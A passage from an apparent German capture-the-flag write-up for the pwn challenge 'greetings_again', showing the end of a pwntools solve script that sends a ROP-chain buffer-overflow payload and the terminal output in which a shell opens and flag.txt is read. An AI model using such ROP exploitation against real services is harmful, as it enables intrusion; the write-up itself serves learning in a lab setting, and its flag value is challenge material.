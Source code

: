```python
        p64(rop1),
        p64(0x0),
        p64(0x0),
        p64(0x0),
        p64(0x0),
        p64(rop2)
    ]

    log.info("Joining payload...")
    payload = b"".join(payload)

    # print(payload)
    # gdb.attach(p)

    log.info("Sending payload...")
    p.sendline(payload)

    log.info("Changing to interactive mode..")
    p.interactive()


if __name__ == "__main__":
    get_addresses()
```

Das Ausführen des Scripts gibt eine Shell zurück, über die die flag.txt ausgelesen werden kann. Der Output sollte wie folgt aussehen:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 solve.py
[+] Opening connection to localhost on port 4004: Done
/home/kali/Desktop/pwn-greetings_again/solutions/solve.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  output = p.recvuntil("werden?\n")
(' 0x7f476d3a80e0', ' 0x7f476d3a6cf0', ' 0x55b35e5101e2')
rop1 0x55b35e5102b4
rop2 0x7f476d41c61a
[*] Joining payload...
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb4\x02Q^\xb3U\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1a\xc6AmG\x7f\x00\x00'
[*] Sending payload...
[*] Changing to interactive mode..
[*] Switching to interactive mode
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb4Q^\xb3U!
$ ls
flag.txt
greetings_again
setup_socket.sh
$ cat flag.txt
DBH{d15b4ee3-963f-461c-9437-2b333839f5cd}$
```
